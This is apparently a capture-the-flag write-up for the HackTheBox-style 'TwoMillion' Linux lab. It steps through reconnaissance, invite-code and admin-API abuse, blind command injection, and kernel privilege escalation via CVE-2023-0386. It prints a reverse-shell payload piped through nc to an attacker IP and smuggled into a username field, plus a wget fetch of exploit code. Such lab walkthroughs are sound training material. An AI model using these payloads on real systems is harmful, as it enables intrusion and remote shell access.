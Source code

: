 lab name: twomillion
difficulty : easy
Target: linux

# nmap

```
╰─❯ nmap -sV 10.10.11.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 07:56 EEST
Nmap scan report for 10.10.11.221
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.25 seconds
```

in this nmap scan it indicates http server is opened but we need to put 2million.htb in /etc/hosts

# find me

after going to the home of the website you will notice that its
web application that has login functionality. when you go to join endpoint you will notice you need invite code.

![alt text](<../images/Screenshot 2025-06-07 at 8.15.33 AM.png>)

turn on burpsuite and refresh you will notice that endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.18.17 AM.png>)
its a obsfucated javascript code. when you deobsfucate it you will understand what does it to

https://matthewfl.com/unPacker.html => this is an unpacker for js

the output

```
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```

/api/v1/invite/how/to/generate this endpoint is interesting. lets go for it

![alt text](<../images/Screenshot 2025-06-07 at 8.22.48 AM.png>)

theres a text that is encrypted in ROT-13
decrypt it and it says

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

send a POST request to this endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.25.22 AM.png>)
invite code got generated! but base64 decrypt it first and make an account

## investigating the API

when you go through the vpn generate using burpsuite you will notice this API
/api/v1/generate/vpn
try to get to /api/v1 you will notice the whole documentation

![alt text](<../images/Screenshot 2025-06-07 at 8.36.43 AM.png>)
going to the update admin endpoint

![alt text](<../images/Screenshot 2025-06-07 at 8.37.34 AM.png>)

put the content-type header to application/json
and it will tell you put the email in the json body

![alt text](<../images/Screenshot 2025-06-07 at 8.39.09 AM.png>)

now go the api endpoint then go to the generation of vpn for admin user
make a POST request with username

## blind command injection
when you send in username "test &&" you will see empty response. try "test && whoami" and you will still see empty response. open a python http server and try curl to your own ip maybe it will work

![alt text](<../images/Screenshot 2025-06-07 at 8.46.14 AM.png>)

this payload in username parameter will work but you need to open netcat in your machine first

```
test && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 9001 >/tmp/f
```

dont forget to replace ip and port

# going in

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

for better bash experience

now do ls -la and you will see that theres an .env file

```
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

go to ssh using those credintials

now you have the user flag

after some spidering you will find /var/mail

```
admin@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather


```

in the mail it says overlayFS / FUSE

search for the cve
https://github.com/puckiestyle/CVE-2023-0386

git clone the cve file then run python http server on it then run this command to get the file in the target machine

```

wget -r --no-parent http://10.10.16.4:8000/CVE-2023-0386

```

then follow the github instructions and now you have a shell
